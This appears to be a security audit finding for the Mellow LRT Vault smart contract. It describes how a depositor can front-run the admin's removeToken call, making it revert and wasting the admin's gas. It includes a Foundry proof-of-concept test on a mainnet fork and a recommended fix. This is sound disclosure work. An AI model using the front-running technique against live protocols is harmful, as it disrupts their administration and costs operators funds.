 Bitter Jetblack Finch

High

# DoS/Gas griefing attack to protocol admin when removing tokens

## Summary

The protocol's admin can be a subject of DoS/gas griefing attacks when calling `Vault::removeToken` function.

## Vulnerability Detail

Only an admin have the priviliges to remove tokens from the protocol, because of the `_requireAdmin()` function seen below. However for current deployments there is only one underlying token `wstETH`. But if we track the internally called `underlyingTvl()` function, it retrieves the tokens and their values from an underlying tokens array and tvl calculating function: 

```javascript
function underlyingTvl() public view returns (address[] memory tokens, uint256[] memory amounts) {
@>      tokens = _underlyingTokens;
        amounts = _calculateTvl(tokens, true);
    }

@>  address[] private _underlyingTokens;   
```

Since it's an array, that means there is a room left for addition of other tokens. Moreover sponsor confirmed that adding `USDC`, `USDT`, `rETH` and `WETH` tokens is a possible scenario. Now if we look at the `removeToken()` function, we see that by design if there is an amount staked of a particular token it can't be removed.
 
```javascript
function removeToken(address token) external nonReentrant {
        ...
        (address[] memory tokens, uint256[] memory amounts) = underlyingTvl();
        uint256 index = tokens.length;
        for (uint256 i = 0; i < tokens.length; i++) {
            if (tokens[i] == token) {
@>              if (amounts[i] != 0) revert NonZeroValue();
        ...
    }
```

A malicious user can front-run the remove function call, by calling `deposit(...)` to provide value for that token and cause admin's remove token function calls to revert everytime, thus making him pay gas costs.

Attack scenario:

1. Let's say the forementioned `wstETH`, `rETH` and `WETH` tokens are added as underlying
2. An admin decides to remove `wstETH` 
3. A malicious user front-runs the tx and calls deposit 
4. Admin's tx reverts with `NonZeroValue` error

<details>
<summary>PoC here</summary>

1. Include the following test function in the `e2e/VaultTest.t.sol` file.
2. Run `forge test --mt testAttack -vvvv --fork-url $(grep MAINNET_RPC .env | cut -d '=' -f2,3,4,5) --fork-block-number 19845261 --match-path ./tests/mainnet/\*`

```javascript
function testAttack() public {
        // Setup
        Vault vault = new Vault("Mellow LRT Vault", "mLRT", admin);
        vm.startPrank(admin);
        vault.grantRole(vault.ADMIN_DELEGATE_ROLE(), admin);
        vault.grantRole(vault.OPERATOR(), operator);
        _setUp(vault);
        vm.stopPrank();
        _initialDeposit(vault);
       
        // For simplicity wil keep zero values for tokens until the attack
        address[] memory underlyingTokens = vault.underlyingTokens();
        assertEq(underlyingTokens.length, 3);
        vm.stopPrank();
        
        // Malicious user's front-running tx
        address depositor = address(bytes20(keccak256("depositor")));
        vm.startPrank(depositor);
        deal(Constants.WSTETH, depositor, 10 ether);
        
        IERC20(Constants.WSTETH).safeIncreaseAllowance(
            address(vault),
            10 ether
        );

        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 10 ether;
        amounts[1] = 0 ether;
        amounts[2] = 0 ether;

        vault.deposit(depositor, amounts, 10 ether, type(uint256).max);
        assertEq(
            IERC20(Constants.WSTETH).balanceOf(address(vault)),
            10 ether + 10 gwei
        );
        assertEq(vault.balanceOf(address(vault)), 10 gwei);
        assertEq(vault.balanceOf(depositor), 10 ether);
        vm.stopPrank();
        
        // Admin's remove function call
        vm.startPrank(admin);
        vm.expectRevert(IVault.NonZeroValue.selector);
        vault.removeToken(Constants.WSTETH);
        vm.stopPrank();
    }
```
</details>

## Impact

- Impact: High, as the remove function can become totally unexecutable for the admin, plus it comes with unnecessary gas costs for him
- Likelihood: Medium, an unhappy user will be incentivized to harm the protocol
- Overall: High

## Code Snippet

https://github.com/sherlock-audit/2024-06-mellow/blob/6defa2f3481ee3232ea256d0c1e4f9df9860ffa5/mellow-lrt/src/Vault.sol#L212

## Tool used

Manual Review

## Recommendation

Add a pausing mechanism to the `Vault::deposit` function. This way the admin will not expect any front-running deposits tx's.

